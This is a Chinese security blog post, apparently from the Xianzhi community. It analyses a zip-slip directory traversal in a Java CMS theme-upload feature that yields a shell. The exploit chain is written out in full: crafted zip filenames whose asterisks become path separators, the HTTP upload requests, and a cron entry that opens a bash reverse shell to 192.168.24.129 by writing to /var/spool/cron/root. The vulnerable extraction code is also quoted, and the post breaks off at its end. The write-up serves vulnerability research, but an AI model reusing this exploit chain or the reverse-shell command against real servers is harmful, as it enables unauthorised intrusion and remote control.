









# 由 zip 压缩绕过目录穿越限制导致的 getshell 分析-先知社区

> **来源**: https://xz.aliyun.com/news/17032  
> **文章ID**: 17032

---

# 由 zip 压缩绕过目录穿越限制导致的 getshell 分析

## 前言

**文章中涉及的敏感信息均已做打码处理，文章仅做经验分享用途，切勿当真，未授权的攻击属于非法行为！文章中敏感信息均已做多层打码处理。传播、利用本文章所提供的信息而造成的任何直接或者间接的后果及损失，均由使用者本人负责，作者不为此承担任何责任，一旦造成后果请自行承担。**

## zip 压缩的漏洞点原理

比如如下的命令

```
zip -r ./a.zip ..\..\a
```

zip -r ./a.zip：将指定内容递归压缩到 a.zip 文件中。

`....\a：这是一个路径模式，.. 表示上级目录，\* 是通配符，a 是文件名的一部分。

原因

解压的时候可能没有验证../或者导致被绕过，就可能导致我们的目录穿越，压缩我们的文件到任意目录导致危险的利用

## 漏洞复现

首先我们自己需要制造一个文件

```
root@hcss-ecs-0d0e:~# touch ..\*..\*a
root@hcss-ecs-0d0e:~# zip -r ..\*..\*a
        zip warning: missing end signature--probably not a zip file (did you
        zip warning: remember to use binary mode when you transferred it?)
        zip warning: (if you are trying to read a damaged archive try -F)

zip error: Zip file structure invalid (..*..*a)
root@hcss-ecs-0d0e:~# zip -r ./a.zip ..\*..\*a
  adding: ..*..*a (stored 0%)
```

然后我们来到 cms 的漏洞点



这里可以上传主题

  
上传我们的 zip 文件

```
POST /upload/uploadFile HTTP/1.1
Host: 127.0.0.1:7897
Content-Length: 925
sec-ch-ua: "Chromium";v="125", "Not.A/Brand";v="24"
sec-ch-ua-platform: "Windows"
sec-ch-ua-mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/125.0.6422.112 Safari/537.36
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryckqhdU0rzrhXfdGL
Accept: */*
Origin: http://127.0.0.1:7897
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: http://127.0.0.1:7897/admin/theme
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Cookie: MAIN_MENU_COLLAPSE=false; DG_USER_ID_ANONYMOUS=e5dbe5efa486485aa7d6260b97b1fe1d; PUBLICCMS_ADMIN=1_6c1a761a-4f04-4c9a-85b9-b23cfd4a95fb; bjui_theme=blue; dreamer-cms-s=b9e08600-7c70-4e0a-bb33-69e3dede3cdb
Connection: keep-alive

------WebKitFormBoundaryckqhdU0rzrhXfdGL
Content-Disposition: form-data; name="id"

WU_FILE_0
------WebKitFormBoundaryckqhdU0rzrhXfdGL
Content-Disposition: form-data; name="name"

a.zip
------WebKitFormBoundaryckqhdU0rzrhXfdGL
Content-Disposition: form-data; name="type"

application/x-zip-compressed
------WebKitFormBoundaryckqhdU0rzrhXfdGL
Content-Disposition: form-data; name="lastModifiedDate"

Tue Feb 25 2025 01:04:50 GMT+0800 (ä¸­å›½æ ‡å‡†æ—¶é—´)
------WebKitFormBoundaryckqhdU0rzrhXfdGL
Content-Disposition: form-data; name="size"

164
------WebKitFormBoundaryckqhdU0rzrhXfdGL
Content-Disposition: form-data; name="file"; filename="a.zip"
Content-Type: application/x-zip-compressed

PK

```

然后点击确定

```
POST /admin/theme/add HTTP/1.1
Host: 127.0.0.1:7897
Content-Length: 63
Cache-Control: max-age=0
sec-ch-ua: "Chromium";v="125", "Not.A/Brand";v="24"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Upgrade-Insecure-Requests: 1
Origin: http://127.0.0.1:7897
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/125.0.6422.112 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: iframe
Referer: http://127.0.0.1:7897/admin/theme
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Cookie: MAIN_MENU_COLLAPSE=false; DG_USER_ID_ANONYMOUS=e5dbe5efa486485aa7d6260b97b1fe1d; PUBLICCMS_ADMIN=1_6c1a761a-4f04-4c9a-85b9-b23cfd4a95fb; bjui_theme=blue; dreamer-cms-s=b9e08600-7c70-4e0a-bb33-69e3dede3cdb
Connection: keep-alive

themePath=20250225%2F33505ebce54d4b01b62e421314ff66cb.zip&file=
```

我们根据穿越的点观察

原目录


解压后创建的文件



成功创建了 a 文件

如何 getshell 呢

这个漏洞其实相当于任意文件上传了

参考<https://gitee.com/y1336247431/poc-public/issues/I9BA5R>

在 linux 环境中

```
Create a file named xxxx*root and write the expression of the cron bounce shell
echo "*/1 * * * * bash -i >& /dev/tcp/192.168.24.129/2333 0>&1" > .\.\*.\.\*.\.\*.\.\*.\.\*.\.\*.\.\*.\.\*.\.\*.\.\*.\.\*.\.\*.\.\*.\.\*.\.\*.\.\*var\*spool\*cron\*root

Make a zip file
zip -r ./poc1.zip .\.\*.\.\*.\.\*.\.\*.\.\*.\.\*.\.\*.\.\*.\.\*.\.\*.\.\*.\.\*.\.\*.\.\*.\.\*.\.\*var\*spool\*cron\*root
```

写了一个反弹 shell 的定时任务

然后监听端口



成功 getshell

## 漏洞分析

根据 exp 定位到我们的漏洞路由

```
@Log(operType = OperatorType.INSERT, module = "主题管理", content = "添加主题")
@RequestMapping("/add")
@RequiresPermissions("j8rj0lp8")
public String add(String themePath) throws IOException, CmsException {
    Theme theme;
    String rootPath = fileConfiguration.getResourceDir();
    System system = systemService.getSystem();
    String uploadDir = system.getUploaddir();
    
    String uploadpath = rootPath + File.separator + uploadDir + File.separator + themePath;
    File zipFile = new File(uploadpath);
    
    //解压zip
    String targetDir = rootPath + "templates/";
    theme = ZipUtils.unZipFiles(zipFile, targetDir);
    String themeJsonFilePath = theme.getThemePath() + File.separator + "theme.json";
    File themeJsonFile = new File(themeJsonFilePath);
    if(!themeJsonFile.exists()) {
        throw new FileNotFoundException(
                ExceptionEnum.FILE_NOTFOUND_EXCEPTION.getCode(), 
                ExceptionEnum.FILE_NOTFOUND_EXCEPTION.getMessage(),
                "主题包中不包含theme.json描述文件，请仔细检查主题包再上传。");
    }
    String jsonString = FileUtils.readFileToString(themeJsonFile, "UTF-8");
    JSONObject jsonObject = JSON.parseObject(jsonString);
    if(jsonObject == null) {
        throw new FileFormatErrorException(
                ExceptionEnum.FILE_FORMAT_ERROR_EXCEPTION.getCode(), 
                ExceptionEnum.FILE_FORMAT_ERROR_EXCEPTION.getMessage(),
                "主题描述文件theme.json格式错误，请仔细检查描述文件内容再上传。");
    }
    if(!jsonObject.containsKey("themeName") 
            || !jsonObject.containsKey("themeImage") 
            || !jsonObject.containsKey("themeAuthor")
            || !jsonObject.containsKey("themePath")) {
        throw new FileFormatErrorException(
                ExceptionEnum.FILE_FORMAT_ERROR_EXCEPTION.getCode(), 
                ExceptionEnum.FILE_FORMAT_ERROR_EXCEPTION.getMessage(),
                "主题描述文件theme.json格式错误，请仔细检查描述文件内容再上传。");
    }
    String themeName = jsonObject.getString("themeName");
    String themeImage = jsonObject.getString("themeImage");
    String themeAuthor = jsonObject.getString("themeAuthor");
    String themePath1 = jsonObject.getString("themePath");
    if(StringUtil.isBlank(themeName) 
            || StringUtil.isBlank(themeImage) 
            || StringUtil.isBlank(themeAuthor) 
            || StringUtil.isBlank(themePath1)) {
        throw new FileFormatErrorException(
                ExceptionEnum.FILE_FORMAT_ERROR_EXCEPTION.getCode(), 
                ExceptionEnum.FILE_FORMAT_ERROR_EXCEPTION.getMessage(),
                "主题描述文件theme.json格式错误，请仔细检查描述文件内容是否有为空的项。");
    }
    
    theme.setId(UUIDUtils.getPrimaryKey());
    theme.setThemeName(themeName);
    theme.setThemeImg(themeImage);
    theme.setThemeAuthor(themeAuthor);
    theme.setThemePath(themePath1);
    theme.setCreateBy(TokenManager.getToken().getId());
    theme.setCreateTime(new Date());
    theme.setStatus(0);
    
    if("default".equals(theme.getThemePath())) {
        throw new RuntimeException("默认模版不可覆盖！");
    }
    List<Theme> list = themeService.queryByPathName(theme.getThemePath());
    if(list != null && list.size() > 0) {
        Theme oldTheme = list.get(0);
        theme.setId(oldTheme.getId());
        theme.setUpdateBy(TokenManager.getToken().getId());
        theme.setUpdateTime(new Date());
        theme.setStatus(null);
        themeService.update(theme);
    }else {
        int row = themeService.save(theme);
    }
    return "redirect:/admin/theme/list";
}
```

定位解压的代码



然后跟进压缩的地方

```
public static Theme unZipFiles(File zipFile, String descDir) throws IOException {
    File pathFile = new File(descDir);
    if (!pathFile.exists()) {
        pathFile.mkdirs();
    }
    Theme theme = new Theme();
    // 解决zip文件中有中文目录或者中文文件
    ZipFile zip = new ZipFile(zipFile, Charset.forName("GBK"));
    for (Enumeration entries = zip.entries(); entries.hasMoreElements();) {
        ZipEntry entry = (ZipEntry) entries.nextElement();
        String zipEntryName = entry.getName();
        InputStream in = zip.getInputStream(entry);
        String outPath = (descDir + zipEntryName).replaceAll("\*", "/");
        // 判断路径是否存在,不存在则创建文件路径
        File file = new File(outPath.substring(0, outPath.lastIndexOf('/')));..

        if(file.getParent().equals(pathFile.getAbsolutePath()) && file.isDirectory()) {
            theme.setThemePath(file.getAbsolutePath());
        }
        
        if (!file.exists()) {
            file.mkdirs();
        }
        // 判断文件全路径是否为文件夹,如果是上面已经上传,不需要解压
        if (new File(outPath).isDirectory()) {
            continue;
        }
        
        // 输出文件路径信息
        System.out.println(outPath);
        OutputStream out = new FileOutputStream(outPath);
        byte[] buf1 = new byte[1024];
        int len;
        while ((len = in.read(buf1)) > 0) {
            out.write(buf1, 0, len);
        }
        in.close();
        out.close();
    }
    System.out.println("******************解压完毕******************");
    return theme;
}
```

首先是限制了我们的目录穿越的，但是为什么又可以呢，这个就涉及到我们的特殊 payload 了

为什么是有星号了



这样正好替换了

造成我们的目录穿越，导致任意文件写入了



这里会报错



这个无所谓的，因为在模板解析报错之前我们的压缩已经完成了

代码如下  

